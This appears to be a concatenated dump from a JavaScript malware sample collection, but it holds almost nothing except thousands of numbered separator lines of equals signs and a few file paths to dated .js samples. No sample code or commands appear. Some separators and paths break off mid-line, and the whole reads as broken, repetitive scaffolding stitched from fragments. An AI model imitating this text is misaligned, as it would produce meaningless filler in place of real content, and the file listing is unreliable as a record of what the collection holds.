javascript-malware-collection-master\2016\20160920\20160920_65e0954133accc4cf8f6752c321c36fb.js
=========================================66326===========================================
javascript-malware-collection-master\2016\20160920\20160920_660ce20cb8989731fa59f595b330b116.js
=========================================66327===========================================
=========================================66328====================================

=========================================66384===========================================
=========================================66385===========================================
=========================================66386===========================================
=========================================66387===========================================
javascript-malware-collection-master\2016\20160920\20160920_7e81aaab491d9b1166f91584e2c70ae9.js
=========================================66388===========================================
=========================================66389===========================================
=========================================66390===========================================
=========================================66391===========================================
javascript-malware-collection-master\2016\20160920\20160920_808b2b81a14d4fa9e63500b36deb8a4f.js
=========================================66392==========================================

javascript-malware-collection-master\2016\20160920\20160920_964e3968a973240c69331bd7bf066609.js
=========================================66447===========================================
=========================================66448===========================================
javascript-malware-collection-master\2016\20160920\20160920_972bfad96a855bcd822e12c20fc18f35.js
=========================================66449===========================================
javascript-malware-collection-master\2016\20160920\20160920_9762e6368231b2f5a7cea2f23f8f2aac.js
=========================================66450===========================================
=========================================66451===========================================
=========================================66452===========================================
=========================================66453===========================================
=========================================66454====================================

javascript-malware-collection-master\2016\20160920\20160920_aa97d9466f31a5583465992bea96c9b3.js
=========================================66509===========================================
javascript-malware-collection-master\2016\20160920\20160920_ab19f1aa87778e87d156adfdbd1b6ddd.js
=========================================66510===========================================
=========================================66511===========================================
javascript-malware-collection-master\2016\20160920\20160920_ab44001af8a5bc6e7d2e887cacbadf1f.js
=========================================66512===========================================
=========================================66513===========================================
=========================================66514===========================================
=========================================66515===========================================
javascript-malware-collection-master\2016\20160920\20160920_ac1c55f865887724ca5fb8

=========================================66573===========================================
javascript-malware-collection-master\2016\20160920\20160920_c022dfc22c4c1e8d01a96f772d5f4643.js
=========================================66574===========================================
=========================================66575===========================================
=========================================66576===========================================
javascript-malware-collection-master\2016\20160920\20160920_c0f0ebe04497aa32e5ea1ebf5d634372.js
=========================================66577===========================================
=========================================66578===========================================
javascript-malware-collection-master\2016\20160920\20160920_c2806a0426c17eaa7a10fd65a524d502.js
=========================================66579===========================================
javascript-malware-collection-master\2016\20160920\20160920_c2aec44131edf023ab8a28

javascript-malware-collection-master\2016\20160920\20160920_d2a6825f44dc268aa06a1277df3a406b.js
=========================================66630===========================================
javascript-malware-collection-master\2016\20160920\20160920_d3292c950699dcb74015f7421e14addc.js
=========================================66631===========================================
javascript-malware-collection-master\2016\20160920\20160920_d3395985c474f86991c32ddb89af85b3.js
=========================================66632===========================================
=========================================66633===========================================
=========================================66634===========================================
=========================================66635===========================================
=========================================66636===========================================
javascript-malware-collection-master\2016\20160920\20160920_d4a938d40949c60d9db635

=========================================66692===========================================
=========================================66693===========================================
=========================================66694===========================================
javascript-malware-collection-master\2016\20160920\20160920_eadfa68c62bd1eadcc5f72c105a99d48.js
=========================================66695===========================================
=========================================66696===========================================
=========================================66697===========================================
javascript-malware-collection-master\2016\20160920\20160920_eaf831e8855cfe74676f56584fd314ef.js
=========================================66698===========================================
javascript-malware-collection-master\2016\20160920\20160920_eb93f09e42b54443c60a4064b8bb5ba1.js
=========================================66699====================================

=========================================66747===========================================
=========================================66748===========================================
=========================================66749===========================================
=========================================66750===========================================
=========================================66751===========================================
=========================================66752===========================================
=========================================66753===========================================
=========================================66754===========================================
=========================================66755===========================================
=========================================66756===========================================
=========================================66757===========================================
==========

=========================================66839===========================================
=========================================66840===========================================
=========================================66841===========================================
=========================================66842===========================================
=========================================66843===========================================
=========================================66844===========================================
=========================================66845===========================================
=========================================66846===========================================
=========================================66847===========================================
=========================================66848===========================================
=========================================66849===========================================
==========

=========================================66931===========================================
=========================================66932===========================================
=========================================66933===========================================
=========================================66934===========================================
=========================================66935===========================================
=========================================66936===========================================
=========================================66937===========================================
=========================================66938===========================================
=========================================66939===========================================
=========================================66940===========================================
=========================================66941===========================================
==========

=========================================67023===========================================
=========================================67024===========================================
=========================================67025===========================================
=========================================67026===========================================
=========================================67027===========================================
=========================================67028===========================================
=========================================67029===========================================
=========================================67030===========================================
=========================================67031===========================================
=========================================67032===========================================
=========================================67033===========================================
==========

=========================================67115===========================================
=========================================67116===========================================
=========================================67117===========================================
=========================================67118===========================================
=========================================67119===========================================
=========================================67120===========================================
=========================================67121===========================================
=========================================67122===========================================
=========================================67123===========================================
=========================================67124===========================================
=========================================67125===========================================
==========

=========================================67207===========================================
=========================================67208===========================================
=========================================67209===========================================
=========================================67210===========================================
=========================================67211===========================================
=========================================67212===========================================
=========================================67213===========================================
=========================================67214===========================================
=========================================67215===========================================
=========================================67216===========================================
=========================================67217===========================================
==========

=========================================67299===========================================
=========================================67300===========================================
=========================================67301===========================================
=========================================67302===========================================
=========================================67303===========================================
=========================================67304===========================================
=========================================67305===========================================
=========================================67306===========================================
=========================================67307===========================================
=========================================67308===========================================
=========================================67309===========================================
==========

=========================================67391===========================================
=========================================67392===========================================
=========================================67393===========================================
=========================================67394===========================================
=========================================67395===========================================
=========================================67396===========================================
=========================================67397===========================================
=========================================67398===========================================
=========================================67399===========================================
=========================================67400===========================================
=========================================67401===========================================
==========

=========================================67483===========================================
=========================================67484===========================================
=========================================67485===========================================
=========================================67486===========================================
=========================================67487===========================================
=========================================67488===========================================
=========================================67489===========================================
=========================================67490===========================================
=========================================67491===========================================
=========================================67492===========================================
=========================================67493===========================================
==========

=========================================67576===========================================
=========================================67577===========================================
=========================================67578===========================================
=========================================67579===========================================
=========================================67580===========================================
=========================================67581===========================================
=========================================67582===========================================
=========================================67583===========================================
=========================================67584===========================================
=========================================67585===========================================
=========================================67586===========================================
==========

=========================================67669===========================================
=========================================67670===========================================
=========================================67671===========================================
=========================================67672===========================================
=========================================67673===========================================
=========================================67674===========================================
=========================================67675===========================================
=========================================67676===========================================
=========================================67677===========================================
=========================================67678===========================================
=========================================67679===========================================
==========

=========================================67762===========================================
=========================================67763===========================================
=========================================67764===========================================
=========================================67765===========================================
=========================================67766===========================================
=========================================67767===========================================
=========================================67768===========================================
=========================================67769===========================================
=========================================67770===========================================
=========================================67771===========================================
=========================================67772===========================================
==========

=========================================67855===========================================
=========================================67856===========================================
=========================================67857===========================================
=========================================67858===========================================
=========================================67859===========================================
=========================================67860===========================================
=========================================67861===========================================
=========================================67862===========================================
=========================================67863===========================================
=========================================67864===========================================
=========================================67865===========================================
==========

=========================================67948===========================================
=========================================67949===========================================
=========================================67950===========================================
=========================================67951===========================================
=========================================67952===========================================
=========================================67953===========================================
=========================================67954===========================================
=========================================67955===========================================
=========================================67956===========================================
=========================================67957===========================================
=========================================67958===========================================
==========

=========================================68042===========================================
=========================================68043===========================================
=========================================68044===========================================
=========================================68045===========================================
=========================================68046===========================================
=========================================68047===========================================
=========================================68048===========================================
=========================================68049===========================================
=========================================68050===========================================
=========================================68051===========================================
=========================================68052===========================================
==========

=========================================68134===========================================
=========================================68135===========================================
=========================================68136===========================================
=========================================68137===========================================
=========================================68138===========================================
=========================================68139===========================================
=========================================68140===========================================
=========================================68141===========================================
=========================================68142===========================================
=========================================68143===========================================
=========================================68144===========================================
==========

=========================================68228===========================================
=========================================68229===========================================
=========================================68230===========================================
=========================================68231===========================================
=========================================68232===========================================
=========================================68233===========================================
=========================================68234===========================================
=========================================68235===========================================
=========================================68236===========================================
=========================================68237===========================================
=========================================68238===========================================
==========

=========================================68325===========================================
=========================================68326===========================================
=========================================68327===========================================
=========================================68328===========================================
=========================================68329===========================================
=========================================68330===========================================
=========================================68331===========================================
=========================================68332===========================================
=========================================68333===========================================
=========================================68334===========================================
=========================================68335===========================================
==========

=========================================68421===========================================
=========================================68422===========================================
=========================================68423===========================================
=========================================68424===========================================
=========================================68425===========================================
=========================================68426===========================================
=========================================68427===========================================
=========================================68428===========================================
=========================================68429===========================================
=========================================68430===========================================
=========================================68431===========================================
==========

=========================================68513===========================================
=========================================68514===========================================
=========================================68515===========================================
=========================================68516===========================================
=========================================68517===========================================
=========================================68518===========================================
=========================================68519===========================================
=========================================68520===========================================
=========================================68521===========================================
=========================================68522===========================================
=========================================68523===========================================
==========

=========================================68606===========================================
=========================================68607===========================================
=========================================68608===========================================
=========================================68609===========================================
=========================================68610===========================================
=========================================68611===========================================
=========================================68612===========================================
=========================================68613===========================================
=========================================68614===========================================
=========================================68615===========================================
=========================================68616===========================================
==========

=========================================68698===========================================
=========================================68699===========================================
=========================================68700===========================================
=========================================68701===========================================
=========================================68702===========================================
=========================================68703===========================================
=========================================68704===========================================
=========================================68705===========================================
=========================================68706===========================================
=========================================68707===========================================
=========================================68708===========================================
==========

=========================================68790===========================================
=========================================68791===========================================
=========================================68792===========================================
=========================================68793===========================================
=========================================68794===========================================
=========================================68795===========================================
=========================================68796===========================================
=========================================68797===========================================
=========================================68798===========================================
=========================================68799===========================================
=========================================68800===========================================
==========

=========================================68882===========================================
=========================================68883===========================================
=========================================68884===========================================
=========================================68885===========================================
=========================================68886===========================================
=========================================68887===========================================
=========================================68888===========================================
=========================================68889===========================================
=========================================68890===========================================
=========================================68891===========================================
=========================================68892===========================================
==========

=========================================68975===========================================
=========================================68976===========================================
=========================================68977===========================================
=========================================68978===========================================
=========================================68979===========================================
=========================================68980===========================================
=========================================68981===========================================
=========================================68982===========================================
=========================================68983===========================================
=========================================68984===========================================
=========================================68985===========================================
==========

=========================================69069===========================================
=========================================69070===========================================
=========================================69071===========================================
=========================================69072===========================================
=========================================69073===========================================
=========================================69074===========================================
=========================================69075===========================================
=========================================69076===========================================
=========================================69077===========================================
=========================================69078===========================================
=========================================69079===========================================
==========

=========================================69162===========================================
=========================================69163===========================================
=========================================69164===========================================
=========================================69165===========================================
=========================================69166===========================================
=========================================69167===========================================
=========================================69168===========================================
=========================================69169===========================================
=========================================69170===========================================
=========================================69171===========================================
=========================================69172===========================================
==========

=========================================69254===========================================
=========================================69255===========================================
=========================================69256===========================================
=========================================69257===========================================
=========================================69258===========================================
=========================================69259===========================================
=========================================69260===========================================
=========================================69261===========================================
=========================================69262===========================================
=========================================69263===========================================
=========================================69264===========================================
==========

=========================================69348===========================================
=========================================69349===========================================
=========================================69350===========================================
=========================================69351===========================================
=========================================69352===========================================
=========================================69353===========================================
=========================================69354===========================================
=========================================69355===========================================
=========================================69356===========================================
=========================================69357===========================================
=========================================69358===========================================
==========

=========================================69440===========================================
=========================================69441===========================================
=========================================69442===========================================
=========================================69443===========================================
=========================================69444===========================================
=========================================69445===========================================
=========================================69446===========================================
=========================================69447===========================================
=========================================69448===========================================
=========================================69449===========================================
=========================================69450===========================================
==========

=========================================69532===========================================
=========================================69533===========================================
=========================================69534===========================================
=========================================69535===========================================
=========================================69536===========================================
=========================================69537===========================================
=========================================69538===========================================
=========================================69539===========================================
=========================================69540===========================================
=========================================69541===========================================
=========================================69542===========================================
==========

=========================================69624===========================================
=========================================69625===========================================
=========================================69626===========================================
=========================================69627===========================================
=========================================69628===========================================
=========================================69629===========================================
=========================================69630===========================================
=========================================69631===========================================
=========================================69632===========================================
=========================================69633===========================================
=========================================69634===========================================
==========

=========================================69716===========================================
=========================================69717===========================================
=========================================69718===========================================
=========================================69719===========================================
=========================================69720===========================================
=========================================69721===========================================
=========================================69722===========================================
=========================================69723===========================================
=========================================69724===========================================
=========================================69725===========================================
=========================================69726===========================================
==========

=========================================69808===========================================
=========================================69809===========================================
=========================================69810===========================================
=========================================69811===========================================
=========================================69812===========================================
=========================================69813===========================================
=========================================69814===========================================
=========================================69815===========================================
=========================================69816===========================================
=========================================69817===========================================
=========================================69818===========================================
==========

=========================================69900===========================================
=========================================69901===========================================
=========================================69902===========================================
=========================================69903===========================================
=========================================69904===========================================
=========================================69905===========================================
=========================================69906===========================================
=========================================69907===========================================
=========================================69908===========================================
=========================================69909===========================================
=========================================69910===========================================
==========

=========================================69990===========================================
=========================================69991===========================================
=========================================69992===========================================
=========================================69993===========================================
=========================================69994===========================================
=========================================69995===========================================
=========================================69996===========================================
=========================================69997===========================================
=========================================69998===========================================
=========================================69999===========================================
=========================================70000===========================================
==========

=========================================70082===========================================
=========================================70083===========================================
=========================================70084===========================================
=========================================70085===========================================
=========================================70086===========================================
=========================================70087===========================================
=========================================70088===========================================
=========================================70089===========================================
=========================================70090===========================================
=========================================70091===========================================
=========================================70092===========================================
==========

=========================================70174===========================================
=========================================70175===========================================
=========================================70176===========================================
=========================================70177===========================================
=========================================70178===========================================
=========================================70179===========================================
=========================================70180===========================================
=========================================70181===========================================
=========================================70182===========================================
=========================================70183===========================================
=========================================70184===========================================
==========

=========================================70269===========================================
=========================================70270===========================================
=========================================70271===========================================
=========================================70272===========================================
=========================================70273===========================================
=========================================70274===========================================
=========================================70275===========================================
=========================================70276===========================================
=========================================70277===========================================
=========================================70278===========================================
=========================================70279===========================================
==========

=========================================70362===========================================
=========================================70363===========================================
=========================================70364===========================================
=========================================70365===========================================
=========================================70366===========================================
=========================================70367===========================================
=========================================70368===========================================
=========================================70369===========================================
=========================================70370===========================================
=========================================70371===========================================
=========================================70372===========================================
==========

=========================================70455===========================================
=========================================70456===========================================
=========================================70457===========================================
=========================================70458===========================================
=========================================70459===========================================
=========================================70460===========================================
=========================================70461===========================================
=========================================70462===========================================
=========================================70463===========================================
=========================================70464===========================================
=========================================70465===========================================
==========

=========================================70547===========================================
=========================================70548===========================================
=========================================70549===========================================
=========================================70550===========================================
=========================================70551===========================================
=========================================70552===========================================
=========================================70553===========================================
=========================================70554===========================================
=========================================70555===========================================
=========================================70556===========================================
=========================================70557===========================================
==========

=========================================70639===========================================
=========================================70640===========================================
=========================================70641===========================================
=========================================70642===========================================
=========================================70643===========================================
=========================================70644===========================================
=========================================70645===========================================
=========================================70646===========================================
=========================================70647===========================================
=========================================70648===========================================
=========================================70649===========================================
==========

=========================================70731===========================================
=========================================70732===========================================
=========================================70733===========================================
=========================================70734===========================================
=========================================70735===========================================
=========================================70736===========================================
=========================================70737===========================================
=========================================70738===========================================
=========================================70739===========================================
=========================================70740===========================================
=========================================70741===========================================
==========

=========================================70823===========================================
=========================================70824===========================================
=========================================70825===========================================
=========================================70826===========================================
=========================================70827===========================================
=========================================70828===========================================
=========================================70829===========================================
=========================================70830===========================================
=========================================70831===========================================
=========================================70832===========================================
=========================================70833===========================================
==========

=========================================70916===========================================
=========================================70917===========================================
=========================================70918===========================================
=========================================70919===========================================
=========================================70920===========================================
=========================================70921===========================================
=========================================70922===========================================
=========================================70923===========================================
=========================================70924===========================================
=========================================70925===========================================
=========================================70926===========================================
==========

=========================================71008===========================================
=========================================71009===========================================
=========================================71010===========================================
=========================================71011===========================================
=========================================71012===========================================
=========================================71013===========================================
=========================================71014===========================================
=========================================71015===========================================
=========================================71016===========================================
=========================================71017===========================================
=========================================71018===========================================
==========

=========================================71101===========================================
=========================================71102===========================================
=========================================71103===========================================
=========================================71104===========================================
=========================================71105===========================================
=========================================71106===========================================
=========================================71107===========================================
=========================================71108===========================================
=========================================71109===========================================
=========================================71110===========================================
=========================================71111===========================================
==========

=========================================71193===========================================
=========================================71194===========================================
=========================================71195===========================================
=========================================71196===========================================
=========================================71197===========================================
=========================================71198===========================================
=========================================71199===========================================
=========================================71200===========================================
=========================================71201===========================================
=========================================71202===========================================
=========================================71203===========================================
==========

=========================================71286===========================================
=========================================71287===========================================
=========================================71288===========================================
=========================================71289===========================================
=========================================71290===========================================
=========================================71291===========================================
=========================================71292===========================================
=========================================71293===========================================
=========================================71294===========================================
=========================================71295===========================================
=========================================71296===========================================
==========

=========================================71378===========================================
=========================================71379===========================================
=========================================71380===========================================
=========================================71381===========================================
=========================================71382===========================================
=========================================71383===========================================
=========================================71384===========================================
=========================================71385===========================================
=========================================71386===========================================
=========================================71387===========================================
=========================================71388===========================================
==========

=========================================71471===========================================
=========================================71472===========================================
=========================================71473===========================================
=========================================71474===========================================
=========================================71475===========================================
=========================================71476===========================================
=========================================71477===========================================
=========================================71478===========================================
=========================================71479===========================================
=========================================71480===========================================
=========================================71481===========================================
==========

=========================================71563===========================================
=========================================71564===========================================
=========================================71565===========================================
=========================================71566===========================================
=========================================71567===========================================
=========================================71568===========================================
=========================================71569===========================================
=========================================71570===========================================
=========================================71571===========================================
=========================================71572===========================================
=========================================71573===========================================
==========

=========================================71655===========================================
=========================================71656===========================================
=========================================71657===========================================
=========================================71658===========================================
=========================================71659===========================================
=========================================71660===========================================
=========================================71661===========================================
=========================================71662===========================================
=========================================71663===========================================
=========================================71664===========================================
=========================================71665===========================================
==========

=========================================71744===========================================
=========================================71745===========================================
=========================================71746===========================================
=========================================71747===========================================
=========================================71748===========================================
=========================================71749===========================================
=========================================71750===========================================
=========================================71751===========================================
=========================================71752===========================================
=========================================71753===========================================
=========================================71754===========================================
==========

=========================================71836===========================================
=========================================71837===========================================
=========================================71838===========================================
=========================================71839===========================================
=========================================71840===========================================
=========================================71841===========================================
=========================================71842===========================================
=========================================71843===========================================
=========================================71844===========================================
=========================================71845===========================================
=========================================71846===========================================
==========

=========================================71928===========================================
=========================================71929===========================================
=========================================71930===========================================
=========================================71931===========================================
=========================================71932===========================================
=========================================71933===========================================
=========================================71934===========================================
=========================================71935===========================================
=========================================71936===========================================
=========================================71937===========================================
=========================================71938===========================================
==========

=========================================72020===========================================
=========================================72021===========================================
=========================================72022===========================================
=========================================72023===========================================
=========================================72024===========================================
=========================================72025===========================================
=========================================72026===========================================
=========================================72027===========================================
=========================================72028===========================================
=========================================72029===========================================
=========================================72030===========================================
==========

=========================================72112===========================================
=========================================72113===========================================
=========================================72114===========================================
=========================================72115===========================================
=========================================72116===========================================
=========================================72117===========================================
=========================================72118===========================================
=========================================72119===========================================
=========================================72120===========================================
=========================================72121===========================================
=========================================72122===========================================
==========

=========================================72204===========================================
=========================================72205===========================================
=========================================72206===========================================
=========================================72207===========================================
=========================================72208===========================================
=========================================72209===========================================
=========================================72210===========================================
=========================================72211===========================================
=========================================72212===========================================
=========================================72213===========================================
=========================================72214===========================================
==========

=========================================72296===========================================
=========================================72297===========================================
=========================================72298===========================================
=========================================72299===========================================
=========================================72300===========================================
=========================================72301===========================================
=========================================72302===========================================
=========================================72303===========================================
=========================================72304===========================================
=========================================72305===========================================
=========================================72306===========================================
==========

=========================================72388===========================================
=========================================72389===========================================
=========================================72390===========================================
=========================================72391===========================================
=========================================72392===========================================
=========================================72393===========================================
=========================================72394===========================================
=========================================72395===========================================
=========================================72396===========================================
=========================================72397===========================================
=========================================72398===========================================
==========

=========================================72480===========================================
=========================================72481===========================================
=========================================72482===========================================
=========================================72483===========================================
=========================================72484===========================================
=========================================72485===========================================
=========================================72486===========================================
=========================================72487===========================================
=========================================72488===========================================
=========================================72489===========================================
=========================================72490===========================================
==========

=========================================72572===========================================
=========================================72573===========================================
=========================================72574===========================================
=========================================72575===========================================
=========================================72576===========================================
=========================================72577===========================================
=========================================72578===========================================
=========================================72579===========================================
=========================================72580===========================================
=========================================72581===========================================
=========================================72582===========================================
==========

=========================================72665===========================================
=========================================72666===========================================
=========================================72667===========================================
=========================================72668===========================================
=========================================72669===========================================
=========================================72670===========================================
=========================================72671===========================================
=========================================72672===========================================
=========================================72673===========================================
=========================================72674===========================================
=========================================72675===========================================
==========

=========================================72758===========================================
=========================================72759===========================================
=========================================72760===========================================
=========================================72761===========================================
=========================================72762===========================================
=========================================72763===========================================
=========================================72764===========================================
=========================================72765===========================================
=========================================72766===========================================
=========================================72767===========================================
=========================================72768===========================================
==========

=========================================72850===========================================
=========================================72851===========================================
=========================================72852===========================================
=========================================72853===========================================
=========================================72854===========================================
=========================================72855===========================================
=========================================72856===========================================
=========================================72857===========================================
=========================================72858===========================================
=========================================72859===========================================
=========================================72860===========================================
==========

=========================================72942===========================================
=========================================72943===========================================
=========================================72944===========================================
=========================================72945===========================================
=========================================72946===========================================
=========================================72947===========================================
=========================================72948===========================================
=========================================72949===========================================
=========================================72950===========================================
=========================================72951===========================================
=========================================72952===========================================
==========

=========================================73034===========================================
=========================================73035===========================================
=========================================73036===========================================
=========================================73037===========================================
=========================================73038===========================================
=========================================73039===========================================
=========================================73040===========================================
=========================================73041===========================================
=========================================73042===========================================
=========================================73043===========================================
=========================================73044===========================================
==========

=========================================73126===========================================
=========================================73127===========================================
=========================================73128===========================================
=========================================73129===========================================
=========================================73130===========================================
=========================================73131===========================================
=========================================73132===========================================
=========================================73133===========================================
=========================================73134===========================================
=========================================73135===========================================
=========================================73136===========================================
==========

=========================================73218===========================================
=========================================73219===========================================
=========================================73220===========================================
=========================================73221===========================================
=========================================73222===========================================
=========================================73223===========================================
=========================================73224===========================================
=========================================73225===========================================
=========================================73226===========================================
=========================================73227===========================================
=========================================73228===========================================
==========

=========================================73310===========================================
=========================================73311===========================================
=========================================73312===========================================
=========================================73313===========================================
=========================================73314===========================================
=========================================73315===========================================
=========================================73316===========================================
=========================================73317===========================================
=========================================73318===========================================
=========================================73319===========================================
=========================================73320===========================================
==========

=========================================73402===========================================
=========================================73403===========================================
=========================================73404===========================================
=========================================73405===========================================
=========================================73406===========================================
=========================================73407===========================================
=========================================73408===========================================
=========================================73409===========================================
=========================================73410===========================================
=========================================73411===========================================
=========================================73412===========================================
==========

=========================================73494===========================================
=========================================73495===========================================
=========================================73496===========================================
=========================================73497===========================================
=========================================73498===========================================
=========================================73499===========================================
=========================================73500===========================================
=========================================73501===========================================
=========================================73502===========================================
=========================================73503===========================================
=========================================73504===========================================
==========

=========================================73586===========================================
=========================================73587===========================================
=========================================73588===========================================
=========================================73589===========================================
=========================================73590===========================================
=========================================73591===========================================
=========================================73592===========================================
=========================================73593===========================================
=========================================73594===========================================
=========================================73595===========================================
=========================================73596===========================================
==========

=========================================73678===========================================
=========================================73679===========================================
=========================================73680===========================================
=========================================73681===========================================
=========================================73682===========================================
=========================================73683===========================================
=========================================73684===========================================
=========================================73685===========================================
=========================================73686===========================================
=========================================73687===========================================
=========================================73688===========================================
==========

=========================================73770===========================================
=========================================73771===========================================
=========================================73772===========================================
=========================================73773===========================================
=========================================73774===========================================
=========================================73775===========================================
=========================================73776===========================================
=========================================73777===========================================
=========================================73778===========================================
=========================================73779===========================================
=========================================73780===========================================
==========

=========================================73862===========================================
=========================================73863===========================================
=========================================73864===========================================
=========================================73865===========================================
=========================================73866===========================================
=========================================73867===========================================
=========================================73868===========================================
=========================================73869===========================================
=========================================73870===========================================
=========================================73871===========================================
=========================================73872===========================================
==========

=========================================73954===========================================
=========================================73955===========================================
=========================================73956===========================================
=========================================73957===========================================
=========================================73958===========================================
=========================================73959===========================================
=========================================73960===========================================
=========================================73961===========================================
=========================================73962===========================================
=========================================73963===========================================
=========================================73964===========================================
==========

=========================================74046===========================================
=========================================74047===========================================
=========================================74048===========================================
=========================================74049===========================================
=========================================74050===========================================
=========================================74051===========================================
=========================================74052===========================================
=========================================74053===========================================
=========================================74054===========================================
=========================================74055===========================================
=========================================74056===========================================
==========

=========================================74138===========================================
=========================================74139===========================================
=========================================74140===========================================
=========================================74141===========================================
=========================================74142===========================================
=========================================74143===========================================
=========================================74144===========================================
=========================================74145===========================================
=========================================74146===========================================
=========================================74147===========================================
=========================================74148===========================================
==========

=========================================74231===========================================
=========================================74232===========================================
=========================================74233===========================================
=========================================74234===========================================
=========================================74235===========================================
=========================================74236===========================================
=========================================74237===========================================
=========================================74238===========================================
=========================================74239===========================================
=========================================74240===========================================
=========================================74241===========================================
==========

=========================================74325===========================================
=========================================74326===========================================
=========================================74327===========================================
=========================================74328===========================================
=========================================74329===========================================
=========================================74330===========================================
=========================================74331===========================================
=========================================74332===========================================
=========================================74333===========================================
=========================================74334===========================================
=========================================74335===========================================
==========

=========================================74418===========================================
=========================================74419===========================================
=========================================74420===========================================
=========================================74421===========================================
=========================================74422===========================================
=========================================74423===========================================
=========================================74424===========================================
=========================================74425===========================================
=========================================74426===========================================
=========================================74427===========================================
=========================================74428===========================================
==========

=========================================74510===========================================
=========================================74511===========================================
=========================================74512===========================================
=========================================74513===========================================
=========================================74514===========================================
=========================================74515===========================================
=========================================74516===========================================
=========================================74517===========================================
=========================================74518===========================================
=========================================74519===========================================
=========================================74520===========================================
==========

=========================================74603===========================================
=========================================74604===========================================
=========================================74605===========================================
=========================================74606===========================================
=========================================74607===========================================
=========================================74608===========================================
=========================================74609===========================================
=========================================74610===========================================
=========================================74611===========================================
=========================================74612===========================================
=========================================74613===========================================
==========

=========================================74695===========================================
=========================================74696===========================================
=========================================74697===========================================
=========================================74698===========================================
=========================================74699===========================================
=========================================74700===========================================
=========================================74701===========================================
=========================================74702===========================================
=========================================74703===========================================
=========================================74704===========================================
=========================================74705===========================================
==========

=========================================74787===========================================
=========================================74788===========================================
=========================================74789===========================================
=========================================74790===========================================
=========================================74791===========================================
=========================================74792===========================================
=========================================74793===========================================
=========================================74794===========================================
=========================================74795===========================================
=========================================74796===========================================
=========================================74797===========================================
==========

=========================================74881===========================================
=========================================74882===========================================
=========================================74883===========================================
=========================================74884===========================================
=========================================74885===========================================
=========================================74886===========================================
=========================================74887===========================================
=========================================74888===========================================
=========================================74889===========================================
=========================================74890===========================================
=========================================74891===========================================
==========

=========================================74975===========================================
=========================================74976===========================================
=========================================74977===========================================
=========================================74978===========================================
=========================================74979===========================================
=========================================74980===========================================
=========================================74981===========================================
=========================================74982===========================================
=========================================74983===========================================
=========================================74984===========================================
=========================================74985===========================================
==========

=========================================75068===========================================
=========================================75069===========================================
=========================================75070===========================================
=========================================75071===========================================
=========================================75072===========================================
=========================================75073===========================================
=========================================75074===========================================
=========================================75075===========================================
=========================================75076===========================================
=========================================75077===========================================
=========================================75078===========================================
==========

=========================================75163===========================================
=========================================75164===========================================
=========================================75165===========================================
=========================================75166===========================================
=========================================75167===========================================
=========================================75168===========================================
=========================================75169===========================================
=========================================75170===========================================
=========================================75171===========================================
=========================================75172===========================================
=========================================75173===========================================
==========

=========================================75258===========================================
=========================================75259===========================================
=========================================75260===========================================
=========================================75261===========================================
=========================================75262===========================================
=========================================75263===========================================
=========================================75264===========================================
=========================================75265===========================================
=========================================75266===========================================
=========================================75267===========================================
=========================================75268===========================================
==========

=========================================75352===========================================
=========================================75353===========================================
=========================================75354===========================================
=========================================75355===========================================
=========================================75356===========================================
=========================================75357===========================================
=========================================75358===========================================
=========================================75359===========================================
=========================================75360===========================================
=========================================75361===========================================
=========================================75362===========================================
==========

=========================================75446===========================================
=========================================75447===========================================
=========================================75448===========================================
=========================================75449===========================================
=========================================75450===========================================
=========================================75451===========================================
=========================================75452===========================================
=========================================75453===========================================
=========================================75454===========================================
=========================================75455===========================================
=========================================75456===========================================
==========

=========================================75538===========================================
=========================================75539===========================================
=========================================75540===========================================
=========================================75541===========================================
=========================================75542===========================================
=========================================75543===========================================
=========================================75544===========================================
=========================================75545===========================================
=========================================75546===========================================
=========================================75547===========================================
=========================================75548===========================================
==========

=========================================75631===========================================
=========================================75632===========================================
=========================================75633===========================================
=========================================75634===========================================
=========================================75635===========================================
=========================================75636===========================================
=========================================75637===========================================
=========================================75638===========================================
=========================================75639===========================================
=========================================75640===========================================
=========================================75641===========================================
==========

=========================================75723===========================================
=========================================75724===========================================
=========================================75725===========================================
=========================================75726===========================================
=========================================75727===========================================
=========================================75728===========================================
=========================================75729===========================================
=========================================75730===========================================
=========================================75731===========================================
=========================================75732===========================================
=========================================75733===========================================
==========

=========================================75820===========================================
=========================================75821===========================================
=========================================75822===========================================
=========================================75823===========================================
=========================================75824===========================================
=========================================75825===========================================
=========================================75826===========================================
=========================================75827===========================================
=========================================75828===========================================
=========================================75829===========================================
=========================================75830===========================================
==========

=========================================75916===========================================
=========================================75917===========================================
=========================================75918===========================================
=========================================75919===========================================
=========================================75920===========================================
=========================================75921===========================================
=========================================75922===========================================
=========================================75923===========================================
=========================================75924===========================================
=========================================75925===========================================
=========================================75926===========================================
==========

=========================================76013===========================================
=========================================76014===========================================
=========================================76015===========================================
=========================================76016===========================================
=========================================76017===========================================
=========================================76018===========================================
=========================================76019===========================================
=========================================76020===========================================
=========================================76021===========================================
=========================================76022===========================================
=========================================76023===========================================
==========

=========================================76113===========================================
=========================================76114===========================================
=========================================76115===========================================
=========================================76116===========================================
=========================================76117===========================================
=========================================76118===========================================
=========================================76119===========================================
=========================================76120===========================================
=========================================76121===========================================
=========================================76122===========================================
=========================================76123===========================================
==========

=========================================76208===========================================
=========================================76209===========================================
=========================================76210===========================================
=========================================76211===========================================
=========================================76212===========================================
=========================================76213===========================================
=========================================76214===========================================
=========================================76215===========================================
=========================================76216===========================================
=========================================76217===========================================
=========================================76218===========================================
==========

=========================================76304===========================================
=========================================76305===========================================
=========================================76306===========================================
=========================================76307===========================================
=========================================76308===========================================
=========================================76309===========================================
=========================================76310===========================================
=========================================76311===========================================
=========================================76312===========================================
=========================================76313===========================================
=========================================76314===========================================
==========

=========================================76403===========================================
=========================================76404===========================================
=========================================76405===========================================
=========================================76406===========================================
=========================================76407===========================================
=========================================76408===========================================
=========================================76409===========================================
=========================================76410===========================================
=========================================76411===========================================
=========================================76412===========================================
=========================================76413===========================================
==========

=========================================76502===========================================
=========================================76503===========================================
=========================================76504===========================================
=========================================76505===========================================
=========================================76506===========================================
=========================================76507===========================================
=========================================76508===========================================
=========================================76509===========================================
=========================================76510===========================================
=========================================76511===========================================
=========================================76512===========================================
==========

=========================================76596===========================================
=========================================76597===========================================
=========================================76598===========================================
=========================================76599===========================================
=========================================76600===========================================
=========================================76601===========================================
=========================================76602===========================================
=========================================76603===========================================
=========================================76604===========================================
=========================================76605===========================================
=========================================76606===========================================
==========

=========================================76690===========================================
=========================================76691===========================================
=========================================76692===========================================
=========================================76693===========================================
=========================================76694===========================================
=========================================76695===========================================
=========================================76696===========================================
=========================================76697===========================================
=========================================76698===========================================
=========================================76699===========================================
=========================================76700===========================================
==========

=========================================76788===========================================
=========================================76789===========================================
=========================================76790===========================================
=========================================76791===========================================
=========================================76792===========================================
